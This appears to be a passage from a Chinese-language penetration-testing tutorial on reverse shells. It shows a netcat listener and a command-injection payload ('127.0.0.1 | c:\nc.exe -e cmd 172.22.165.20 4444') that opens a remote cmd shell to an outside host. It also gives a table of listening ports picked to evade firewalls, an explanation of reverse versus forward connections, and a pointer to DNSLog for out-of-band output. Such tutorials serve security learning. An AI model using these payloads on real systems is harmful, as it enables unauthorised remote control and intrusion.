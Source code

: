 ```
nc -lvp 4444
127.0.0.1 | c:\\nc.exe -e cmd 172.22.165.20 4444
```

可以看到成功连接

![image-20250523152748039](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170037309-120263332.png)

## 常用监听端口推荐

| 端口号                             | 用途说明                        | 是否推荐                 | 备注                  |
| ---------------------------------- | ------------------------------- | ------------------------ | --------------------- |
| **4444**                           | 渗透测试和反弹 shell 的惯用端口 | ✅ 强烈推荐               | 默认推荐，无需权限    |
| **1234**                           | 常用调试 / Netcat 默认演示      | ✅ 推荐                   | 使用广泛              |
| **8888**                           | 用于调试 / 代理服务端口         | ✅ 推荐                   | 通常未被防火墙拦截    |
| **8080**                           | Web服务调试端口                 | ✅ 推荐                   | 常用于反弹 HTTP shell |
| **53**                             | DNS 端口，绕过限制时可用        | ⚠️ 可用但需注意           | 某些环境绕过防火墙    |
| **21** / **22** / **80** / **443** | 模拟 FTP / SSH / HTTP / HTTPS   | ⚠️ 仅在特定防火墙策略下用 | 有时可用来绕过防      |

## 防火墙

### 入站和出战

入站就是检查进来的流量，出战就是检查出去的流量

当入站被限制，比如端口被禁用了，那么就需要反向连接，把控制权给出去

当出战被限制了那就用正向连接

**入站限制**

![image-20250523155447174](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170037640-1204694127.png)

![image-20250523160620473](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170038074-978735441.png)

![image-20250523155516787](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170038390-892054937.png)

![image-20250523160700092](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170038697-1086488416.png)

## 没回显

解决方法：

### 带外回显

网站：[DNSLog Platform](http://www.dnslog.cn/)
